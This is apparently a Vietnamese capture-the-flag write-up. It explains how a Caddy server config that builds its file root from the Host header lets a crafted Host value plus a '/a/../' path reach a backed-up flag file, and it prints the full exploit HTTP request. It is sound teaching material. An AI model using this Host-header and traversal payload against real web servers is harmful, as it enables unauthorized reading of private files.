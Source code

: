 # Solution

Ở file `Caddyfile`, ta thấy có một đoạn cấu hình khá thú vị

```
    file_server {
        root /srv/{host}/
    }
```

[file_server directive](https://caddyserver.com/docs/caddyfile/directives/file_server) này sẽ append request URI vào root path được chỉ định bởi [root directive](https://caddyserver.com/docs/caddyfile/directives/root). Bên cạnh đó root directive của server có thể được thay đổi dựa vào `{host}` - `{http.request.host}` - là Host header của chúng ta.

Chú ý phần `command` ở file `docker-compose.yml`, file flag.txt sẽ bị xóa nhưng tác giả đã lưu các thông tin trước khi xóa (bao gồm cả flag.txt) vào folder backups, vì vậy ta có thể lợi dụng để chuyển root directive về folder backups này và đọc file flag.txt


Final request payload:

```
GET /a/../flag.txt HTTP/1.1
Host: backups/php.caddy.chal-kalmarc.tf
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="91", " Not;A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

- Sử dụng `/a/../flag.txt` bởi vì nếu là `/flag.txt` thì server sẽ response với status code là `403`
- Phần host header là `backups/php.caddy.chal-kalmarc.tf`, để match với block `*.caddy.chal-kalmarc.tf` 